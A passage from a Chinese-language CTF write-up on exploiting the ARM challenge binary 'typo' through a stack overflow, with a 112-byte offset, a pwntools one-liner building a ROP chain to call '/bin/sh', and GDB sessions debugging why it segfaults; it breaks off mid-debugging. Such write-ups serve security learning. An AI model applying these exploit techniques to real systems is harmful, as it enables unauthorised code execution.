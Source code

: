 的确是把R11,LR这俩寄存器的内容压栈了，而且IDA分析出的v6距离栈底的距离是0x70，即112字节。

## 测试与利用

一开始采用：

```python
python -c 'print "\n"+"a"*112' | ./typo
```

这种方式测试，结果是相当的奇怪，减小112到110也会段错误，然后在小就会疯狂的输出单词。然后我直接输入exp，也还是段错误：

```python
python -c 'from pwn import *;print "\n"+"a"*112+p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)' | ./typo
```

然后我把exp导出文件：

```python
python -c 'from pwn import *;print "\n"+"a"*112+p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)' > input
```

然后从gdb调试里导入：

```bash
ubuntu@ubuntu:~$ gdb -q ./typo
GEF for linux ready, type `gef' to start, `gef config' to configure
75 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 5 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./typo...(no debugging symbols found)...done.
gef➤  b * 0x20904
Breakpoint 1 at 0x20904
gef➤  r < input
```

然后断下的时候的状态：

```bash
gef➤  x /i $pc
=> 0x20904:	pop	{r0, r4, pc}
gef➤  x /4wx $sp
0xfffef4f8:	0x0006c384	0x0006c384	0x000110b4	0xfffef70a
gef➤  x /s 0x6c384
0x6c384:	"/bin/sh"
```

然后继续运行就段错误了，PC走到了0x60，每次运行还都不太一样。无论是在树莓派上还是在手机上都无法成功

### 在树莓派上

但是我在树莓派上直接运行调试，把程序状态改成这样就能getshell

```bash
ubuntu@ubuntu:~$ gdb -q ./typo
gef➤  b * 0x00008DE8
Breakpoint 1 at 0x8de8
gef➤  r
Starting program: /home/ubuntu/typo
Let s Do Some Typing Exercise~
Press Enter to get start;
Input ~ if you want to quit

------Begin------
Thursday
a

[#0] 0x8de8 → pop {r4,  r11,  pc}
Breakpoint 1, 0x00008de8 in ?? ()

```